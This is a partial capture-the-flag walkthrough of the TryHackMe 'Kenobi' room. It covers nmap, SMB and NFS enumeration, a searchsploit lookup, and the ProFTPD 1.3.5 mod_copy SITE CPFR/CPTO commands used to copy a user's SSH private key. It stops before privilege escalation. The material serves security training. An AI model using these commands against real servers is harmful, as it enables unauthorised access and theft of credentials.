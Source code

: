 # The Impossible Challenge

- [Tools](#tools)
- [Deploy the vulnerable machine](#Deploy-the-vulnerable-machine)
- [Enumerating Samba for shares](#enumerating-samba-for-shares)
- [Gain initial access with ProFtpd](#gain-initial-access-with-progtpd)
- [Privilege Escalation with Path Variable Manipulation](#privilege-escalation-with-path-variable-manipulation)
  
Room Link: https://tryhackme.com/room/kenobi

## Tools 

1. NMap https://nmap.org/download
2. Metasploit https://www.metasploit.com/download
3. 

## Deploy the vulnerable machine
1. Running nmap gives
```bash
nmap 10.10.60.186
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-28 14:09 IST
Nmap scan report for 10.10.60.186
Host is up (0.16s latency).
Not shown: 992 closed ports
PORT     STATE    SERVICE
21/tcp   open     ftp
22/tcp   open     ssh
80/tcp   open     http
111/tcp  open     rpcbind
139/tcp  open     netbios-ssn
445/tcp  open     microsoft-ds
2049/tcp open     nfs
2500/tcp filtered rtsserv

Nmap done: 1 IP address (1 host up) scanned in 20.38 seconds
```
2. Question "Scan the machine with nmap, how many ports are open?" Answer "7"
## Enumerating Samba for shares 
1. Now we can scan it with given nmap commands.
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.104.199
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-28 17:37 IST
Nmap scan report for 10.10.104.199
Host is up (0.16s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-enum-users: ERROR: Script execution failed (use -d to debug)
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.104.199\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.104.199\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.104.199\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 28.24 seconds

```
2. Question `Using the nmap command above, how many shares have been found?` Answer `3`
3. Connected to smb as `anonymous` user using given command `smbclient //10.10.56.134/anonymous` to read files
```bash
smbclient //10.10.56.134/anonymous
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 16:19:09 2019
  ..                                  D        0  Wed Sep  4 16:26:07 2019
  log.txt                             N    12237  Wed Sep  4 16:19:09 2019

		9204224 blocks of size 1024. 6877096 blocks available
```
4. Question `Once you're connected, list the files on the share. What is the file can you see?` Answer `log.txt`
5. Then used given command to download files,
```bash
smbget -R smb://10.10.56.134/anonymous
Password for [root] connecting to //10.10.56.134/anonymous: 
Using workgroup WORKGROUP, user root
smb://10.10.56.134/anonymous/log.txt                                                                        
Downloaded 11.95kB in 6 seconds
```
6. Question `What port is FTP running on?` Answer `21` Got it from `log.txt`
7. As given nmap scan command with script to scan port 111
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.56.134
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-28 23:36 IST
Nmap scan report for 10.10.56.134
Host is up (0.16s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836540.0  6877088.0  22%   16.0T        32000
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwx   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 5.66 seconds
```
8. Question `What mount can we see?` Answer `/var`

## Gain initial access with ProFtpd
1. Question `What is the version?` (FTP) Answer `1.3.5`
```bash
nc 10.10.245.171 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.245.171]
```
2. Question `How many exploits are there for the ProFTPd running?` Answer `4`
```bash
searchsploit proftp 1.3.5
[i] Found (#2): /opt/exploit-database/files_exploits.csv
[i] To remove this message, please edit "/opt/exploit-database/.searchsploit_rc" which has "package_array: exploitdb" to point too: path_array+=("/opt/exploit-database")

[i] Found (#2): /opt/exploit-database/files_shellcodes.csv
[i] To remove this message, please edit "/opt/exploit-database/.searchsploit_rc" which has "package_array: exploitdb" to point too: path_array+=("/opt/exploit-database")

-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                 | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                       | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                   | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                 | linux/remote/36742.txt
-------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
3. Copied `id_rsa` file according to given instruction
```bash
nc 10.10.245.171 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.245.171]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
4. Mount NFS as instruction
```bash
root@system:/tmp# mkdir /mnt/kenobiNFS
root@system:/tmp# mount 10.10.245.171:/var /mnt/kenobiNFS
mount: /mnt/kenobiNFS: bad option; for several filesystems (e.g. nfs, cifs) you might need a /sbin/mount.<type> helper program.
root@system:/tmp# ls -la /mnt/kenobiNFS
total 8
drwxr-xr-x 2 root root 4096 Feb 29 10:03 .
drwxr-xr-x 3 root root 4096 Feb 29 10:03 ..
```
5. 
## Privilege Escalation with Path Variable Manipulation 

Author: Zishan Ahamed Thandar
